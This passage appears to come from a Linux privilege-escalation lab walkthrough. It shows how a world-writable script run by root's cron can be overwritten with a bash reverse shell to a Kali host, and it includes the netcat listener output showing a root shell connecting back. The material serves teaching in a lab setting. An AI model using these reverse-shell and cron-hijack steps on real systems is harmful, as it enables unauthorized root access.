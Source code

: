     SHELL=/bin/sh
    PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    # m h dom mon dow user  command
    17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
    25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    #
    * * * * * root overwrite.sh
    * * * * * root /usr/local/bin/compress.sh
    ```

    There should be two cron jobs scheduled to run every minute. One runs `overwrite.sh`, the other runs `/usr/local/bin/compress.sh`.

- Locate the full path of the overwrite.sh file:
    
    ```bash
    user@debian:~$ locate overwrite.sh
    locate: warning: database `/var/cache/locate/locatedb' is more than 8 days old (actual age is 245.2 days)
    /usr/local/bin/overwrite.sh
    ```

- Note that the file is world-writable:

    ```bash
    user@debian:~$ ls -l /usr/local/bin/overwrite.sh
    -rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
    ```

- Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

    ```
    #!/bin/bash
    bash -i >& /dev/tcp/10.11.25.205/9999 0>&1
    ```

- Set up a netcat listener on your Kali box on port 9999 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

    ```bash
    $ nc -lnvp 9999
    listening on [any] 9999 ...
    connect to [10.11.25.205] from (UNKNOWN) [10.10.240.248] 48535
    bash: no job control in this shell
    root@debian:~#
    ```

## Cron Jobs - PATH Environment Variable
View the contents of the system-wide crontab:
